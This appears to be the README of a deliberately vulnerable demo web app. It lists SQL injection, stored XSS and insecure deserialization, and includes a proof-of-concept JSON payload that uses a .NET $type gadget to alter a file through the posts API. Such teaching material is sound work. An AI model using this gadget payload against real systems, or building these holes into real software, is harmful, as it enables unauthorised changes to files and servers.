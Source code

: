 # VulnerableWebApp

This app currently contains two known vulnerabilities:

- [SQL injection](https://github.com/lboynton/VulnerableWebApp/blob/c9ad5c5759a54a1745289e16349f49d615fad48c/Controllers/Api/Posts.cs#L27)
- [Stored XSS](https://github.com/lboynton/VulnerableWebApp/blame/35336373287e4414865bb474899c35fbbcdedc0f/Views/Posts/Index.cshtml#L27)
- [Insecure Deserialization]()

# Insecure deserialization
Call the `POST /api/posts` endpoint with the following payloads.

## Exploit POC

First run `touch /tmp/rce-test.txt && chmod 777 /tmp/rce-test.txt`. Then send the following payload to the API:

```
{
    "input": {
        "$type":"System.IO.FileInfo, System.IO.FileSystem",
        "fileName":"/tmp/rce-test.txt",
        "IsReadOnly": true
    }
}
```

Then run `ls -l /tmp/rce-test.txt` and you should see that the file is now read-only.

## Valid data
```
{
    "input": {
        "Title":"testing"
    }
}
```
